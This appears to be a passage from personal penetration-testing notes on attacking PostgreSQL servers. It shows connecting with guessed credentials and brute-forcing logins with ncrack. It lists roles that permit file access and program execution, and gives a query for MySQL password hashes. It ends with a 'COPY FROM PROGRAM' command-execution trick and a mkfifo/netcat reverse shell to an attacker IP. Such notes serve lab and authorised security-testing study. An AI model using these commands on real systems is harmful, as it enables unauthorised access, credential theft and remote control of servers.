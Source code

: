 Alternatives to xfreerdp3 (if you encounter errors):

```
remmina
```

## Postgres

Try some credentials:

```
psql -U root -h 192.168.237.143 -p 5432
```

Bruteforce (Try Default Credentials by hand since this did not work):
```
ncrack -v -U users.txt -P passwords.txt psql://192.168.211.47:5437 
```


```
psql -h 172.22.0.1 -U postgres -p 5432

\l
\c <database>
\dt
SELECT * FROM users;
```

**Interesting Groups**

- If you are a member of **`pg_execute_server_program`** you can **execute** programs
- If you are a member of **`pg_read_server_files`** you can **read** files
- If you are a member of **`pg_write_server_files`** you can **write** files

Get User role `\du`

Other data:

```
select version();
show databases;
use databse
select * from users;
show tables
select system_user();
SELECT user, authentication_string FROM mysql.user WHERE user = Pre
```

Check online because there are ways to execute commands in PostGres (https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-postgresql.html):

```
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;

# Reverse shell
COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.160 443 >/tmp/f';
```

